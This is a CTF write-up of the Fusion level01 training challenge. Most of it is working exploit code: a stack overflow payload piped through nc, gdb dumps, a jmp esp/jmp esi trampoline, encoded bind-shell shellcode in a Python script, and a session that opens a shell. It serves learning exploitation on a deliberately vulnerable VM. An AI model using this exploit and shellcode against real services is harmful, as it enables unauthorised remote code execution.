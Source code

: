 +++
author = "pwntester"
categories = ["CTF", "Fusion", "exploit", "level01"]
date = 2013-12-29T10:14:00Z
description = ""
draft = false
slug = "fusion-level01-write-up"
tags = ["CTF", "Fusion", "exploit", "level01"]
title = "Fusion level01 write-up"

+++

## Fusion level01
This [level](http://exploit-exercises.com/fusion/level01) implements stack/heap/mmap ASLR but the stack is still executable:

![](/images/octopress/fusion01.png)

The code provided is exactly the same but there is no info leak this time.

We start off overwriting EIP to crash the application and taking a look:

```lang-bash line-numbers 
python -c 'print "GET " + "A"*139 + "DDDD" + " HTTP/1.1" + "\x90"*16 + "B"*80'| nc localhost 20001
```

Monitoring with gdb we get:

```lang-bash line-numbers 
(gdb) attach 1521
Attaching to program: /opt/fusion/bin/level01, process 1521
Reading symbols from /lib/i386-linux-gnu/libc.so.6...Reading symbols from /usr/lib/debug/lib/i386-linux-gnu/libc-2.13.so...done.
done.
Loaded symbols for /lib/i386-linux-gnu/libc.so.6
Reading symbols from /lib/ld-linux.so.2...(no debugging symbols found)...done.
Loaded symbols for /lib/ld-linux.so.2
0xb7839424 in __kernel_vsyscall ()
(gdb) set follow-fork-mode child
(gdb) c
Continuing.
[New process 1584]

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 1584]
0x44444444 in ?? ()
```

Once it crashes, we take a look at the registers:

```lang-bash line-numbers 
(gdb) i r
eax            0x1	1
ecx            0xb76b48d0	-1217705776
edx            0xbff7ff10	-1074266352
ebx            0xb782cff4	-1216163852
esp            0xbff7ff10	0xbff7ff10
ebp            0x41414141	0x41414141
esi            0xbff7ffc4	-1074266172
edi            0x8049ed1	134520529
eip            0x44444444	0x44444444
eflags         0x10246	[ PF ZF IF RF ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```

And one by one, we see what is there. We find that **esi** is pointing to our NOP sled. how convenient!!

```lang-bash line-numbers 
(gdb) x/30x $esi
0xbff7ffc4:	0x90909090	0x90909090	0x90909090	0x90909090
0xbff7ffd4:	0x42424242	0x42424242	0x42424242	0x42424242
0xbff7ffe4:	0x42424242	0x42424242	0x42424242	0x42424242
0xbff7fff4:	0x42424242	0x42424242	0x42424242	0x42424242
0xbff80004:	0x42424242	0x42424242	0x42424242	0x42424242
0xbff80014:	0x42424242	0x42424242	0x42424242	0x42424242
0xbff80024:	0x0000000a	0x00000000	0x00000000	0x00000000
0xbff80034:	0x00000000	0x00000000
```

So if we find the opcodes for **jmp esi** in .text we will be able to jump to our shellcode:

```lang-bash line-numbers 
fusion@fusion:~$ /opt/metasploit-framework/msfelfscan -j esi /opt/fusion/bin/level01
[/opt/fusion/bin/level01]
```

No luck, but we can still use the "jmp esp" technique to jump to the address right after our return address and we can place a "jmp esi" there since we control it.

Lets look for the jmp esp opcodes:

```lang-bash line-numbers 
fusion@fusion:~$ /opt/metasploit-framework/msfelfscan -j esp /opt/fusion/bin/level01
[/opt/fusion/bin/level01]
0x08049f4f jmp esp
```

Nice! now, the opcodes for "jmp esi" are "ff06"

So our exploit should look like:

```lang-python line-numbers 
#!/usr/bin/python

from socket import *
from struct import *

s = socket(AF_INET, SOCK_STREAM)
s.connect(("localhost", 20001))

shellcode = "\xeb\x02\xeb\x05\xe8\xf9\xff\xff\xff\x5f\x81\xef\xdf\xff\xff\xff\x57\x5e\x29\xc9\x80\xc1\xb8\x8a\x07\x2c\x41\xc0\xe0\x04\x47\x02\x07\x2c\x41\x88\x06\x46\x47\x49\xe2\xedDBMAFAEAIJMDFAEAFAIJOBLAGGMNIADBNCFCGGGIBDNCEDGGFDIJOBGKBAFBFAIJOBLAGGMNIAEAIJEECEAEEDEDLAGGMNIAIDMEAMFCFCEDLAGGMNIAJDIJNBLADPMNIAEBIAPJADHFPGFCGIGOCPHDGIGICPCPGCGJIJODFCFDIJOBLAALMNIA"

ret = "\x4f\x9f\x04\x08" #jmp esp
jmpesi = "\x90\x90\x06\xff" # jmp esi opcodes
payload =  "GET " + "A"*139 + ret + jmpesi + " HTTP/1.1 " + "\x90"*16 +  shellcode
s.send(payload)
s.close()
```

Lets check it by setting a breakpoint just before "fix_path" ret opcode and reviewing the memory at that point:

```lang-bash line-numbers 
(gdb) b *fix_path+63
Breakpoint 1 at 0x8049854: file level01/level01.c, line 9.
(gdb) c
Continuing.
[New process 1709]
[Switching to process 1709]

Breakpoint 1, 0x08049854 in fix_path (path=Cannot access memory at address 0x41414149
) at level01/level01.c:9
9	level01/level01.c: No such file or directory.
	in level01/level01.c
(gdb) x/x $esp
0xbff7ff0c:	0x08049f4f
(gdb) x/i 0x08049f4f
   0x8049f4f:	jmp    *%esp
(gdb) x/x $esp+4
0xbff7ff10:	0x9090e6ff
(gdb) x/i $esp+4
   0xbff7ff10:	jmp    *%esi
(gdb) x/30x $esi
0xbff7ffc8:	0x90909020	0x90909090	0x90909090	0x90909090
0xbff7ffd8:	0xeb02eb90	0xfff9e805	0x815fffff	0xffffdfef
0xbff7ffe8:	0x295e57ff	0xb8c180c9	0x412c078a	0x4704e0c0
0xbff7fff8:	0x412c0702	0x47460688	0x44ede249	0x46414d42
0xbff80008:	0x49414541	0x46444d4a	0x46414541	0x4f4a4941
0xbff80018:	0x47414c42	0x494e4d47	0x4e424441	0x47434643
0xbff80028:	0x42494747	0x45434e44	0x46474744	0x4f4a4944
0xbff80038:	0x424b4742	0x46424641
```

Oppps, with the new "jmp esi" opcodes in the payload, now **esi** points to a \x20 (space) so if we continue execution, it will segfault at 0xbff7ffc8:

```lang-bash line-numbers 
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0xbff7ffc8 in ?? ()
```

So lets remove the whitespace after "HTTP/1.1" to make our exploit work and run it again:

New payload:

```lang-python line-numbers 
ret = "\x4f\x9f\x04\x08" #jmp esp
jmpesi = "\xff\xe6\x90\x90" # jmp esi opcodes
payload =  "GET " + "A"*139 + ret + jmpesi + " HTTP/1.1" + "\x90"*16 +  shellcode
```


```lang-bash line-numbers 
fusion@fusion:~$ python fusion01.py
fusion@fusion:~$ sudo netstat -natp | grep LISTEN
tcp        0      0 0.0.0.0:20002           0.0.0.0:*               LISTEN      1539/level02
tcp        0      0 0.0.0.0:20003           0.0.0.0:*               LISTEN      1533/level03
tcp        0      0 0.0.0.0:20004           0.0.0.0:*               LISTEN      1530/level04
tcp        0      0 0.0.0.0:20005           0.0.0.0:*               LISTEN      1527/level05
tcp        0      0 0.0.0.0:20006           0.0.0.0:*               LISTEN      1524/level06
tcp        0      0 0.0.0.0:20008           0.0.0.0:*               LISTEN      911/level08
tcp        0      0 0.0.0.0:5074            0.0.0.0:*               LISTEN      1737/level01
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      743/sshd
tcp        0      0 0.0.0.0:20000           0.0.0.0:*               LISTEN      1544/level00
tcp        0      0 0.0.0.0:20001           0.0.0.0:*               LISTEN      1521/level01
tcp6       0      0 :::22                   :::*                    LISTEN      743/sshd
fusion@fusion:~$ nc localhost 5074
id
uid=20001 gid=20001 groups=20001
```






